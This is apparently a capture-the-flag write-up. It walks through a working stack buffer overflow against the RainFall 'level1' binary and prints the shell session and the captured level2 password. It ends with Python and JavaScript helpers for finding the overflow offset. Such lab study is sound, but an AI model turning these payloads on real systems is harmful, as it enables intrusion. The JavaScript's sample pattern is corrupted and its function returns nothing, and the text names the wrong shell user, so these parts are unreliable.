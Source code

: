 level1@RainFall:~$ (python -c 'import sys, struct; sys.stdout.write("A" * 76 + struct.pack("<I", 0x08048444)); sys.stdout.flush()'; cat) | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77





📘 Buffer Overflow Exploit 
This exploit demonstrates a classic stack buffer overflow vulnerability

⚠️ Vulnerability Summary
The level1 binary uses the unsafe gets() function.

gets() does not check the size of the buffer, so a long enough input can overwrite the return address.

The program contains a user-defined run() function at address 0x08048444 that calls system("/bin/sh"), granting shell access.

By overflowing the buffer and overwriting the return address with the address of run(), we can make the program jump to run() instead of returning normally.

🛠 Exploit Breakdown
Here is the full command:
(python -c 'import sys, struct; sys.stdout.write("A" * 76 + struct.pack("<I", 0x08048444)); sys.stdout.flush()'; cat) | ./level1
Let’s break it down step-by-step:

🔸 (python -c '...'; cat) | ./level1
This runs a Python one-liner, followed by cat, and pipes the output into ./level1.

cat keeps the standard input open — this is sometimes needed if the program continues reading input after gets().

🔸 'import sys, struct; ...'
sys lets us write raw bytes to stdout.

struct is used to convert an integer address into raw binary in little-endian format (required by x86 architecture).

🔸 "A" * 76
Sends 76 A characters (hex 0x41) to fill the buffer and reach the return address.

The number 76 was determined by trial and error or using GDB to find where the return address starts.

🔸 struct.pack("<I", 0x08048444)
Packs the address of run() (0x08048444) into 4 bytes in little-endian format.

Little-endian means the bytes are ordered least significant byte first, so this becomes \x44\x84\x04\x08.

🔸 sys.stdout.write(...)
Writes the payload ("A" * 76 + run() address) as raw binary output (no newline or encoding issues).

🔸 sys.stdout.flush()
Ensures all output is immediately sent to the program (./level1) — otherwise the buffer may not be written in time.

✅ What Happens When You Run It
The program allocates a buffer on the stack.

gets() reads our input, filling the buffer.

After 76 bytes, we overwrite the saved return address with the address of run().

When main() returns, it jumps to run() instead of the normal exit routine.

run() executes system("/bin/sh"), spawning a shell.

You now have an interactive shell as the level1 user.



To generate a unique string of size 100 that helps identify the offset when a crash occurs (like in buffer overflow), you can use a pattern string often used in exploit development (similar to Metasploit's pattern_create.rb).

Here’s a Python one-liner to generate a unique, non-repeating string of size 100:


```python3 -c 'import itertools; print("".join("".join(x) for x in itertools.product("ABCDEFGHIJKLMNOPQRSTUVWXYZ", "abcdefghijklmnopqrstuvwxyz", "0123456789"))[:100])'```


```Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9```


Here's a small JavaScript program that:

1.Takes a unique pattern string (like the one you generated).

2.Accepts a hex value from the segmentation fault (like 0x37634136).

3.Converts the hex value to ASCII in little-endian order.

4.Searches for that decoded string in the pattern and returns the index.


```function hexToAsciiLittleEndian(hex) {
  // Remove '0x' if present and pad to 8 chars
  hex = hex.replace(/^0x/, '').padStart(8, '0');

  // Break into bytes, reverse (little endian), convert to chars
  let ascii = '';
  for (let i = 0; i < 8; i += 2) {
    const byte = hex.slice(i, i + 2);
    ascii = String.fromCharCode(parseInt(byte, 16)) + ascii;
  }
  return ascii;
}

function findPatternOffset(pattern, hexValue) {
  const search = hexToAsciiLittleEndian(hexValue);
  const index = pattern.indexOf(search);

  console.log(index)
}

// Example usage:
const pattern = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9";
const hexEIP = "0x37634136"; // Example EIP value from crash

const result = findPatternOffset(pattern, hexEIP);```